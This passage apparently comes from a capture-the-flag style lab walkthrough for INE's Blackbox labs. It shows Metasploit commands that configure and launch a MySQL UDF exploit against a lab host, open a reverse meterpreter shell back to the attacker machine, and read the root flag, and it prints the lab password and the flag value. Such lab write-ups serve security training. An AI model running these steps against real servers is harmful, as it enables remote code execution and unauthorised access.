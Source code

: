 Now that we know of all the options and the values we need to fill in, let's do that next.

Step 14: Configuring the selected MySQL UDF exploit module and exploiting the target.

Let's set all the options as discussed in the previous step:

Commands:

set FORCE_UDF_UPLOAD true

set PASSWORD fArFLP29UySm4bZj

set RHOSTS server2.ine.local

set TARGET 1

set LHOST 192.73.96.2

exploit

session -i 2

![](../media/Blackbox%20lab%20INE_104.png)

Note: Again emphasising the point that the IP address for theLHOSTmust not be copied as is but instead it must be retrieved from the Kali instance that you receive. Otherwise things won't work as expected.

Ignore the error received while exploiting the MySQL server.

Let's check the available meterpreter sessions:

Command:

sessions

![](../media/Blackbox%20lab%20INE_105.png)

Notice that we received back a new meterpreter session. Let's access that shell (it's indexed as 2 in the above image):

Command:

sessions -i 2

![](../media/Blackbox%20lab%20INE_106.png)

And we have received back a meterpreter shell on the target running MySQL server! So the exploitation was successful.

Step 15: Reading the flag from the compromised MySQL server.

Commands:

ls /root

cat /root/flag.txt

![](../media/Blackbox%20lab%20INE_107.png)

FLAG: 4c537c0dfd18bafdcd59f53c7015550e
